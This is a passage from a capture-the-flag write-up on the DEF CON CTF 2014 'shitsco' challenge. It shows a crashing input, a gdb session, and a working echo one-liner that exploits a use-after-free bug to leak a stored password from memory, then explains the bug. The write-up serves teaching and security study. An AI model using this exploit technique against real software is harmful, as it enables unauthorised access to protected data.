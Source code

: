 Welcome to Shitsco Internet Operating System (IOS)
For a command list, enter ?
$ $ $ $ $ $ c: AAAABBBBlDDDD
Segmentation fault (core dumped)
</pre>

Using a debugger to check out the crash:

<pre>
$ gdb -q ./shitsco ./core
Reading symbols from /home/ron/defcon-ctf-2014/shitsco/shitsco...(no debugging symbols found)...done.

Core was generated by `./shitsco'.
Program terminated with signal <span class="Constant">11</span>, Segmentation fault.
<span class="Comment">#0  0xf75e2b75 in vfprintf () from /lib32/libc.so.6</span>
(gdb) x/i <span class="Identifier">$eip</span>
=&gt; <span class="Constant">0xf75e2b75</span> &lt;vfprintf+<span class="Constant">21189</span>&gt;: repnz scas al,BYTE PTR es:[edi]
(gdb) <span class="Constant">print</span>/x <span class="Identifier">$edi</span>
$1 = <span class="Constant">0x42424242</span>
</pre>

We can see from this that it crashed in vfprintf() while reading 0x42424242 - that's "BBBB". Sweet!

Now the last step: I want to read the password, so I can use 'enable'. So I set the commandline to 0x0804C3A0, which is the address of the password in memory. I also pipe into "head" because it causes an infinite loop:

<pre>
$ echo -ne 'set a aaaaaaaaaaaaaaaa\nset b bbbbbbbbbbbbbbbb\nset a\nset b\nset c AAAA\xa0\xc3\x04\x08\x6c\xc3\x04\x08DDDD\nshow\n' | ./shitsco | head -n12

 oooooooo8 oooo        o88    o8
888         888ooooo   oooo o888oo  oooooooo8    ooooooo     ooooooo
 888oooooo  888   888   888  888   888ooooooo  888     888 888     888
        888 888   888   888  888           888 888         888     888
o88oooo888 o888o o888o o888o  888o 88oooooo88    88ooo888    88ooo88

Welcome to Shitsco Internet Operating System (IOS)
For a command list, enter ?
$ $ $ $ $ $ c: AAAA?lDDDD
: this_is_the_password
</pre>

We got the password!! From there, all you have to do is use 'enable', then 'flag' to get the flag.

<h2>Summary</h2>

Essentially, this was a use-after-free bug. If you de-allocated the first entry, the 'head' pointer wasn't updated and still pointed at freed memory. If you can allocate new memory of the same size, it'll take the place of the head structure and give the attacker some control over the name, value, next, and previous pointers. In theory, we could almost certainly use this for an arbitrary memory write, but in the context of this challenge it's enough to read the password from memory.

This is the first time I've seen a use-after-free issue in a CTF, so it was really cool to see it!
